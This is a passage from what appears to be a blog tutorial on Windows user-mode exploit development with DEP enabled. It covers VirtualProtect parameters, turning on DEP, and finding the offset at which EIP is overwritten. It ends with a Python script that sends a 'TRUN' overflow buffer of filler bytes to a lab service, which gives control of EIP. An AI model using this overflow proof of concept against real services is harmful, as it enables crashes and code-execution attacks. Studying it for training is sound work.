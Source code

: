 The size of the region whose access protection attributes are to be changed, in bytes. The region of affected pages includes all pages containing one or more bytes in the range from the lpAddress parameter to (lpAddress+dwSize). This means that a 2-byte range straddling a page boundary causes the protection attributes of both pages to be changed.

`flNewProtect`

The memory protection option. This parameter can be one of the memory protection constants.

For mapped views, this value must be compatible with the access protection specified when the view was mapped (see MapViewOfFile, MapViewOfFileEx, and MapViewOfFileExNuma).

`lpflOldProtect`

A pointer to a variable that receives the previous access protection value of the first page in the specified region of pages. If this parameter is NULL or does not point to a valid variable, the function fails.


## Practical


Firstly, we will have to make sure DEP is turned on for all programs and services.


![52a7d33ccfa7774e79dcc5ec219a7eaf.png](/Windows-User-Mode-Exploit-Development-DEP-Part-4/f74940d0fea34d31901cae081121b479.png)



## Controlling EIP

As I explained in the [Windows User Mode Exploit Development Part 1
](https://memn0ps.github.io/Windows-User-Mode-Exploit-Development-Part-1/)

To control EIP, we need to find at which offset the EIP register is overwritten. We can use Metasploit’s pattern create to create a pattern of 3000 bytes and then locating the offset. Since the crash, a 3000 byte buffer crashes the program.

If you remember, we can now locate the offset, which is at 2003. This means that after 2003 bytes the EIP register the overwritten.



![EIP_Overwrite.png](/Windows-User-Mode-Exploit-Development-DEP-Part-4/3d2300c09b4442f9828f48ed6a6cba80.png)


Here is the exploit:

```python
import socket

# Target IP address and port
RHOST = "192.168.16.129"
RPORT = 9999


payload = "A" * 2003
payload += "B" * 4
payload += "C" * (3000- len(payload))

try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((RHOST, RPORT))
        s.recv(1024)
        print("[+] Sending exploit!")
        s.send("TRUN /.:/" + payload)
        print("[+] Evil buffer sent...")
        s.close()
except:
        print("[-] Could not connect to server!")

```